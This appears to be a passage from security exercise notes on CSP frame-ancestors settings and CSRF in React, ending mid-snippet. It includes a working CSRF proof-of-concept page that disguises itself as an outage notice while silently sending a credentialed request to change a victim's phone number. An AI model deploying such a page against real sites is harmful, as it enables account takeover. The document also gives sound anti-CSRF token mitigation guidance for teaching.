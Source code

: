   - Mitigation :- To prevent this kind of security breach, developers should be extremely careful when using regular expressions for security configuration purposes, as it is quite easy to overlook a mistake in such an expression.
```bash
# Enable on Nginx
add_header Content-Security-Policy "frame-ancestors 'self' https://*.coinpay.com https://*.coinexchange.com";

# Enable on Apache
header always set Content-Security-Policy "frame-ancestors 'self' https://*.coinpay.com https://*.coinexchange.com";
```

## React 
> https://guest.application.security/exercises/297
* CSRF :- Login -> Change phone number -> No token -> CSRF POC -> Change number  
**  POC :
```html
<html>
<body>

<h1>We’re currently experiencing technical difficulties.</h1>
<h2>This has impacted our website, Contact Center and Live Chat Teams. We are aiming to have this fixed as soon as possible. We sincerely apologies for any inconvenience caused.</h2>
<p>In the meantime head to our Help & Support page. For more information contact our Live Chat team but please be aware team have limited functionality at present.</p>

<button>VISIT HELP & SUPPORT</button>

<script>
  fetch('https://www.sparkpay.com/api/phone', {
    method: 'PUT',
    credentials: 'include',
    headers: { 'Content-Type': 'application/json' },
    body: '{"phone": "07739364408"}',
  });
</script>

</body>
</html>
```
  - Mitigation :- A number of effective methods exist for both the prevention and mitigation of CSRF attacks. Among the most common mitigation methods is to embed unique random tokens, also known as anti-CSRF tokens for every HTTP request and response cycle which are subsequently checked and verified by the server.
  The server generates a random, unpredictable CSRF token and renders it in HTML, usually via a <meta> tag called csrf-token. It also sends a HttpOnly cookie with the same token.
  When the server receives a mutable HTTP request, it checks if the request contains the correct CSRF token, which is usually expected to be provided via the X-XSRF-TOKEN header. If the header exists and its value matches the value from the cookie, the server allows the request. Otherwise, it produces an error.
  The developer has to make sure that both the server and the client are in sync, i.e. the client should send the requests with the correct header name, which is expected by the server.
  Since a potential attacker can never guess the value of these tokens, anti-CSRF tokens provide a strong defense against CSRF attacks.
  Note - CSRF and XSRF are two different abbreviatures with the same meaning: Cross-Site Request Forgery.
```js
import React, { useState } from 'react';

const PhoneForm = () => {
  const [phone, setPhone] = useState('');

  const onChange = ({ target }) => setPhone(target.value);
```